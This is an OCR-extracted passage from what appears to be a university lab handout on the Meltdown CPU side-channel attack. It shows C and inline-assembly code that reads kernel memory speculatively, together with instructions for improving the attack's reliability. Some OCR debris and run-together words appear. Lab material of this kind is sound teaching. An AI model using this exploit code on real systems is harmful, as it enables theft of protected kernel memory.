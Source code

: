 // Open the /proc/secret_data virtual file.
int fd = open("/proc/secret_data", O_RDONLY);
if (fd < 0) {
perror("open");
return -1;
}

int ret = pread(fd, NULL, 0, 0); // Cause the secret data to be cached.

#### 6.3 Task 7.3: Using Assembly Code to Trigger Meltdown

You probably still cannot succeed in the previous task, even with secret data being cached by CPU. Let us do
one more improvement by adding a few lines of assembly instructions before the kernel memory access. See
the code inmeltdownasm()below. The code basically do a loop for 400 times (see Line¿); inside the
loop, it simply add a number0x141to theeaxregister. This code basically does useless computations, but
according to a post discussion, these extra lines of code “give the algorithmic units something to chew while
memory access is being speculated” [1]. This is an important trick to increase the possibility of success.

Listing 6:meltdownasm()
void meltdown_asm(unsigned long kernel_data_addr)


{
char kernel_data = 0;

```
// Give eax register something to do
asm volatile(
".rept 400;" ¿
"add $0x141, %%eax;"
".endr;" ¡
```
```
:
:
: "eax"
);
```
// The following statement will cause an exception
kernel_data = *(char*)kernel_data_addr;
array[kernel_data *4096 + DELTA] += 1;
}

Please call themeltdownasm()function, instead of the originalmeltdown()function. Describe
your observations. Increase and decrease the number of loops, and report your results.

## 7 Task 8: Make the Attack More Practical

Even with the optimization in the previous task, we may still not be able get the secret data every time:
sometimes, our attack produces the correct secret value, but sometimes, our attack fails to identify any value
or identifies a wrong value. To improve the accuracy, we can use a statistical technique. The idea is create
a score array of size 256, one element for each possible secret value. We then run our attack for multiple
times. Each time, if our attack program says thatkis the secret (this result may be false), we add 1 to
scores[k]. After running the attack for many times, we use the valuekwith the highest score as our
final estimation of the secret. This will produce a much reliable estimation than the one based on a single
run. The revised code is shown in the following.
